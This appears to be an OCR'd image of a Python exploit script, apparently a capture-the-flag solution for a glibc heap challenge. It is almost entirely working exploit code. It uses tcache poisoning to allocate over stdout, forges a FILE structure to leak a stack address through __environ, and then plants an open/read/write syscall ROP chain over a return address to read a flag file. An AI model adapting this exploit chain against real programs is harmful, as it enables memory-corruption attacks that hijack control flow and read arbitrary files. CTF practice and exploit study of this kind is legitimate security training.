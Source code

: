 ```python
Fire(1)

Buy(0x90, 'tcache'+'\n')
Load([0])
Fire(1)

for i in range(7):	#clean Tcache[0x20]
	Buy(0x10, str(i)*0x10)

target = heap_addr + 0xc8			#target = &tcache->next[0x90]
Log('target')

stdout = libc.address + 0x1ec6A0
Log('stdout')

env = libc.symbols['__environ']
Log('env')

Buy(0x10, p64(target)+'\n')				#ArrPtr[7]=C1	Stash: 	Tcache->0->1->target
Buy(0x10, 'flag1'+'\n')					#ArrPtr[8]=C0			Tcache->1->target
Buy(0x10, 'flag2'+'\n')					#ArrPtr[9]=C1			Tcache->target
Buy(0x10, flat(stdout, heap_addr+0x1e8))	#ArrPtr[10]=stdout 		Tcache[0x90]->stdout, Tcache[0xA0]->&tcache->next[0x2D0]

FILE = p64(0xFBAD1800)			#magic
FILE+= p64(0)*3					#read
FILE+= p64(env)+p64(env+8)*2	#write
Buy(0x80, FILE+'\n')

stack_addr = u64(sh.recv(8))
Log('stack_addr')

ret = stack_addr - 0x120
Log('ret')

Buy(0x90, p64(ret)+'\n')	#tcache->next[0x310] = ret

def Call(SYS_n, a, b, c):
	exp = p64(libc.address + 0x26b72)	#rdi
	exp+= p64(a)
	exp+= p64(libc.address + 0x27529)	#rsi
	exp+= p64(b)
	exp+= p64(libc.address + 0x11c371)	#rdx
	exp+= p64(c) + p64(0)
	exp+= p64(libc.address + 0x4a550)	#rax
	exp+= p64(SYS_n)
	exp+= p64(libc.address + 0x11BB09)	#syscall
	return exp

buf = heap_addr+ 0x1000
ROP = Call(0, 0, buf, 0x10)		#read(0, buf, 0x10)
ROP+= Call(2, buf, 0, 0)		#open(buf, 0, 0)
ROP+= Call(0, 3, buf, 0x50)		#read(3, buf, 0x50)
ROP+= Call(1, 1, buf, 0x50)		#write(1, buf, 0x50)

#gdb.attach(sh, 'break *'+hex(proc_base + 0x1A84))

Buy(0x2C0, ROP+'\n')	

Exit()
sh.recvuntil('Goodbye!')
sh.send('flag\x00')

```